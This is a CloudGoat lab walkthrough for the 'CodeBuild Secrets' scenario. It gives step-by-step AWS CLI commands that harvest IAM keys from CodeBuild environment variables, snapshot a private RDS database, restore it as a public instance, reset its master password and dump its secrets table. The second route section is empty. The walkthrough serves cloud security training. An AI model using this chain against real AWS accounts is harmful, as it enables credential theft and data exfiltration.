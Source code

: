 # Scenario 6 - CodeBuild Secrets

## What is the scenario

The scenario begins with security credentials of an IAM user - "Solo" 

The objective is to find a pair of secret strings stored in a secure RDS database.

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/codebuild_secrets/README.md

## Setting up the scenario

        python3 cloudgoat.py create codebuild_secrets

## Walkthrough

There are multiple routes to completing this secenario. We'll cover them independently.

### Exploitation Route - 1

![exploitation-route1](imgs/scenario6-1.png)

### Step by step instructions

In this scenario, we have credentials of an IAM User "Solo" to being with.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the IAM user "Solo" security credentials.

![enumerate-iam-calrissian](imgs/scenario6-3.png)

IAM User "Solo" has some EC2, CodeBuild, RDS, S3 and SSM related permissions.

Let's go ahead with our enumeration using CodeBuild related permissions. We'll list all the CodeBuild projects that IAM user "Solo" has access to.

> [AWS CodeBuild](https://aws.amazon.com/codebuild/) is a fully managed continuous integration service that compiles source code, runs tests, and produces software packages that are ready to deploy. 

        aws codebuild list-projects --profile solo

![cloudbuild-projects](imgs/scenario6-4.png)

There is one CloudBuild project. Let's retrieve more information realted to this build project.

                aws codebuild batch-get-projects \
                --names cg-codebuild-cgidxgz5plnjdu \
                --profile solo

                aws codebuild batch-get-projects \
                --names cg-codebuild-cgidxgz5plnjdu \
                --query "projects[*].environment" \
                --profile solo

![cloudbuild-project-details](imgs/scenario6-5.png)

![cloudbuild-project-details](imgs/scenario6-6.png)

While enumerating the build project details we can notice that the environment variables of the build project have some IAM security credentials that might possibly belong to an IAM User "Calrissian". To verify the credentials you can create an AWS CLI named profile with the security credentials and run `aws sts get-caller-identity` for that profile.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the IAM user "Calrissian" security credentials.

![cloudbuild-project-details](imgs/scenario6-7.png)

IAM User "Calrissian" has some EC2 and RDS related permissions.

Let's check if there are any RDS instances in the AWS account.

        aws rds describe-db-instances \
        --query "DBInstances[*].[DBInstanceIdentifier, Engine , DBName]" \
        --output text \
        --profile calrissian

![db-instance-details](imgs/scenario6-9.png)

There is an RDS instance in the AWS account that is using "PostgreSQL" but it is not publicly accessible. This is our target RDS instance on which the secrets are stored in "securedb" database.

There are various ways to continue our exploitation but let's try to create a snapshot of the running RDS instance and then we will use to snapshot to create another RDS instance that we can control, from which we can extra the secrets.

Let's create a snapshot of the running RDS instance.

        aws rds create-db-snapshot \
        --db-snapshot-identifier secrets-snapshot \
        --db-instance-identifier cg-rds-instance-<CLOUDGOAT-ID> \
        --profile calrissian

Let's create an RDS instance from the snapshot. For us to be able to access the RDS Instance we create publicly, we need to place it in appropriate subnet and also security group.

1. Let's identify the subnet group of the already running RDS Instance. Note the subnet group name

        aws rds describe-db-subnet-groups \
        --query "DBSubnetGroups[?contains(DBSubnetGroupName,'rds')]" \
        --profile calrissian

2. Let's check if there is a security group that allows us to communicate with RDS service. Not the security group identifier

        aws ec2 describe-security-groups \
        --query "SecurityGroups[?contains(Description,'RDS')]" \
        --profile calrissian

Now we have the information required to create an RDS instance from the snapshot appropriately. Let's create an RDS instance from the snapshot.

        aws rds restore-db-instance-from-db-snapshot \
        --db-instance-identifier secrets-instance \
        --db-snapshot-identifier secrets-snapshot \
        --db-subnet-group-name <SUBNET_GROUP_NAME> \
        --publicly-accessible \
        --vpc-security-group-ids <SECURITY_GROUP_NAME> \
        --profile calrissian

Now that we have an RDS instance that we control, let's go ahead and reset the Master User Password for the database.

        aws rds modify-db-instance \
        --db-instance-identifier secrets-instance \
        --master-user-password cloudgoat \
        --profile calrissian

Let's retrieve the information about the new RDS instance we need in order to connect to the database and extract secrets.

        aws rds describe-db-instances \
        --query "DBInstances[*].[DBInstanceIdentifier,Engine,DBName,Endpoint,MasterUsername]" \
        --profile calrissian

![db-instance-details](imgs/scenario6-10.png)

Now that we have all the information required to connect to the RDS instance, we can use any PostgreSQL client to connect to the database and extract the secrets, In this case, we are using `psql`, a command line PostgreSQL client - 

        sudo apt install postgresql-client
        psql -h <INSTANCE-PUBLIC-DNS-NAME> -p 5432 -d securedb -U cgadmin

Once we are connected to the database, we can use commands to extract the secrets.

        \dt
        select * from sensitive_information;

![secrets-in-db](imgs/scenario6-8.png)

### Exploitation Route - 2

![exploitation-route2](imgs/scenario5-17.png)

### Step by step instructions

## References 

- [AWS CodeBuild](https://aws.amazon.com/codebuild/)
- [AWS CLI - codebuild](https://docs.aws.amazon.com/cli/latest/reference/codebuild/index.html#cli-aws-codebuild)